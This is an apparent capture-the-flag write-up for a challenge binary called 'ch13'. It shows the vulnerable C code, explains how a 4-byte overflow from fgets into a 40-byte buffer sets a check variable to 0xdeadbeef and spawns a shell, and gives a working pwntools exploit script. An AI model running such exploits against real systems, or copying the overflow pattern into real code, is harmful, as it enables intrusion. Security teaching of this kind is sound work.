

# ch13

### Summary

This binary has a classic stack-based buffer overflow: `fgets(buf,45,stdin)` reads more bytes than `buf[40]`, letting us overwrite the adjacent `check` variable. By writing the 32-bit value `0xdeadbeef` into `check` we make the program call `system("/bin/bash")` and get a shell. The provided pwntools script fills the buffer and writes that value (using `p32` for little-endian encoding).

---

# Vulnerable code

```c
int var;
int check = 0x04030201;
char buf[40];

fgets(buf,45,stdin);

printf("\n[buf]: %s\n", buf);
printf("[check] %p\n", check);

if ((check != 0x04030201) && (check != 0xdeadbeef))
  printf ("\nYou are on the right way!\n");

if (check == 0xdeadbeef) {
  printf("Yeah dude! You win!\nOpening your shell...\n");
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
  printf("Shell closed! Bye.\n");
}
```

---

# Why it’s exploitable (step-by-step)

1. **Buffer size / read size mismatch**

   - `buf` is `char buf[40]` (40 bytes).
   - `fgets(buf,45,stdin)` can read up to **44** characters plus a terminating `\0` (fgets reads at most `n-1` bytes). That means an attacker can write up to 44 bytes into a 40-byte buffer → **4 bytes overflow**.

2. **Stack layout (typical)**

   - On 32-bit x86 compiled without weird reordering, locals end up adjacent. Here `buf` and `check` are adjacent on the stack, so overflowing `buf` by 4 bytes overwrites `check`. (The exploit works with the binary the user provided, which confirms this layout.)

3. **Goal**

   - Set `check` from `0x04030201` to `0xdeadbeef`. When `check == 0xdeadbeef` the program calls `system("/bin/bash")` giving us a shell.

4. **Endianness**

   - On x86 (little-endian), the integer `0xdeadbeef` must be written as bytes `\xef\xbe\xad\xde`. `pwntools.p32(0xdeadbeef)` produces that little-endian 4-byte sequence.

5. **Why the pwntools payload works**

   - `payload = b'A' * 40 + p32(0xdeadbeef)` fills the 40-byte buffer and then overwrites the following 4 bytes (the `check` variable) with `0xdeadbeef`. After the program checks `if (check == 0xdeadbeef)` it spawns a shell.

6. **Minor printf bug**

   - `printf("[check] %p\n", check);` passes an `int` where `%p` expects a pointer. That's undefined behavior, but in practice this prints a hexadecimal representation — still nothing that prevents exploitation. It’s worth noting but not required for the exploit.

---

# The exploit (explained)

Provided exploit script:

```python
from pwn import *

context.log_level = 'info'
context.arch = 'i386'
context.os   = 'linux'

exe = './ch13'
elf = ELF(exe)

p = process(exe)

payload = b'A' * 40 + p32(0xdeadbeef)

print(payload)
p.sendline(payload)
p.interactive()
```

Line-by-line:

- `context.arch = 'i386'` — ensures pwntools helpers like `p32()` use 32-bit little-endian ordering.
- `p = process(exe)` — spawns local process `./ch13`.
- `payload = b'A' * 40 + p32(0xdeadbeef)` — 40 filler bytes to fill `buf`, then 4 bytes to overwrite `check`.
- `p.sendline(payload)` — send the payload (adds newline).
- `p.interactive()` — give you an interactive shell if the exploit succeeded.

---


